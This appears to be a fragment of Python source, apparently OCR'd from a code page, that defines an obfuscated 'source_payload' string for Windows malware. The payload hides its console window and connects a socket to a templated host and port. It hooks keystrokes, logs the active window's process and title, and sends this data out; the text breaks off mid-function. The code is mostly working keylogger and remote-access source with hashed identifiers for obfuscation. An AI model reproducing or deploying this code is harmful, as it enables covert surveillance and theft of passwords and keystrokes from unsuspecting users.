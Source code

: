         source_payload='from win32gui import ShowWindow\r\nfrom win32console import GetConsoleWindow\r\ndef a88f05b6c963e145a45b58c47cd42a41():\r\n\tb5b8c74cbd96fbf2de4c1a3527b2fbf4=GetConsoleWindow()\r\n\tShowWindow(b5b8c74cbd96fbf2de4c1a3527b2fbf4,0)\r\n\treturn True\r\na88f05b6c963e145a45b58c47cd42a41()\r\nfrom win32console import GetConsoleWindow\r\nfrom ctypes import *\r\nimport time\r\nfrom subprocess import PIPE,Popen\r\nfrom win32clipboard import OpenClipboard,CloseClipboard,GetClipboardData\r\nfrom pythoncom import PumpWaitingMessages\r\nfrom win32gui import ShowWindow\r\nfrom socket import socket,AF_INET,SOCK_STREAM,gethostname\r\nfrom shutil import make_archive\r\nfrom pyHook import HookManager\r\nfrom os import system,popen,path,chdir\r\nfrom threading import Thread\r\nb3c7cbace395d8b182dbb7ae2c3bfb34=socket(AF_INET,SOCK_STREAM)\r\nb3c7cbace395d8b182dbb7ae2c3bfb34.connect((\'{}\',{}))\r\ndef cefda4932d283cb7f67b9f73fb6e0f14():\r\n    d21dbd2c4e178b2cb55dce0c6a43effc=windll.user32\r\n    b0484c19f1afdaf3841a0d821ed393d2=windll.kernel32\r\n    b0180794a2f65cf48e8d77729a05b926=windll.psapi\r\n    global dea181b04ba971dfa9667785debd1ba7\r\n    dea181b04ba971dfa9667785debd1ba7=None\r\n    def b33530fd4c255242ea04c06ab6895b45():\r\n        b25ffa68ad761f8578cc61700c0140ed=d21dbd2c4e178b2cb55dce0c6a43effc.GetForegroundWindow()\r\n        bdb32b9e1adc6d67be435a81baf9a66e=c_ulong(0)\r\n        d21dbd2c4e178b2cb55dce0c6a43effc.GetWindowThreadProcessId(b25ffa68ad761f8578cc61700c0140ed,byref(bdb32b9e1adc6d67be435a81baf9a66e))\r\n        c9cf7ee85456cd274986e0e317358174="%d"%bdb32b9e1adc6d67be435a81baf9a66e.value\r\n        ee7004c7949d83f130592f15d98ca343=create_string_buffer("\\x00"*512)\r\n        b1c18a5e5fa78d7980e81f27c5286002=b0484c19f1afdaf3841a0d821ed393d2.OpenProcess(0x400|0x10,False,bdb32b9e1adc6d67be435a81baf9a66e)\r\n        b0180794a2f65cf48e8d77729a05b926.GetModuleBaseNameA(b1c18a5e5fa78d7980e81f27c5286002,None,byref(ee7004c7949d83f130592f15d98ca343),512)\r\n        b7d36dcb6d03b8fa977d80032a6bb990=create_string_buffer("\\x00"*512)\r\n        bfa47f7c65fec19cc163b1957b5e3844=d21dbd2c4e178b2cb55dce0c6a43effc.GetWindowTextA(b25ffa68ad761f8578cc61700c0140ed,byref(b7d36dcb6d03b8fa977d80032a6bb990),512)\r\n        fdf206e60de0ef6aa76cb2398adecd4d="<PID %s> - %s - %s "%(c9cf7ee85456cd274986e0e317358174,ee7004c7949d83f130592f15d98ca343.value,b7d36dcb6d03b8fa977d80032a6bb990.value)\r\n        b3c7cbace395d8b182dbb7ae2c3bfb34.send(fdf206e60de0ef6aa76cb2398adecd4d)\r\n    def b954f27ca739ea6b036fcb11d43427a1(event):\r\n        global bcdb92b7b97ef94b9ae4479d3f4ef0fc\r\n        global dea181b04ba971dfa9667785debd1ba7\r\n        if event.WindowName!=dea181b04ba971dfa9667785debd1ba7:\r\n            dea181b04ba971dfa9667785debd1ba7=event.WindowName\r\n            b33530fd4c255242ea04c06ab6895b45()\r\n        if event.Ascii>=33 and event.Ascii<=126:\r\n            b4f802ebfba977727845e8872cb743a7=chr(event.Ascii)\r\n            if len(b4f802ebfba977727845e8872cb743a7)==1:\r\n                b4f802ebfba977727845e8872cb743a7=b4f802ebfba977727845e8872cb743a7.upper()\r\n        else:\r\n            b4f802ebfba977727845e8872cb743a7=event.Key\r\n            if len(b4f802ebfba977727845e8872cb743a7)==1:\r\n                b4f802ebfba977727845e8872cb743a7=b4f802ebfba977727845e8872cb743a7.upper()\r\n            if b4f802ebfba977727845e8872cb743a7==\'Tab\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Tab>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Lcontrol\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<L Control>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Rcontrol\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<R Control>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Capital\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Caps Lock>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Lmenu\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<L Alt>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Rmenu\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<R Alt>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Lwin\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<L Win>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Escape\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Escape>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Rshift\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<R Shift>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Lshift\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<L Shift>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Left\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Left>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Up\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Up>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Down\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Down>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Right\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Right>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Delete\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Del>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Insert\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Ins>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Oem_Plus\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<+>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Oem_Minus\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<->\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'End\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<End>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Next\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Next>\'\r\n            if
